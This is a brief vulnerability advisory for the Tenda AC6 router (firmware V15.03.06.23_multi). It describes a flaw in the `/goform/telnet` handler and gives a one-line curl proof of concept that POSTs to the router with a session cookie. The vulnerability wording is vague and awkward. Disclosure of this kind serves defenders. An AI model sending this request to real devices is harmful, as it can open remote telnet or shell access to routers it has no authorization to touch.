

## Tenda AC6 telnet

### Overview

* Vendor: Tenda

* Product: Tenda AC6
* Version: V15.03.06.23_multi

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/AC6/AC6V2.0_V15.03.06.23_multi.zip

### Vulnerability details

An issue was discovered in Tenda AC6 V15.03.06.23_multi. An HTTP request within the handler function of the `/goform/telnet` route. This could lead to Shell Metacharacters.

#### PoC

```
 curl ‐i ‐X POST http://192.168.0.1/goform/telnet ‐d aa=aa ‐‐cookie "password=f6df
 9d1c0835927e379ccc302b848f4aouh1qw"
```


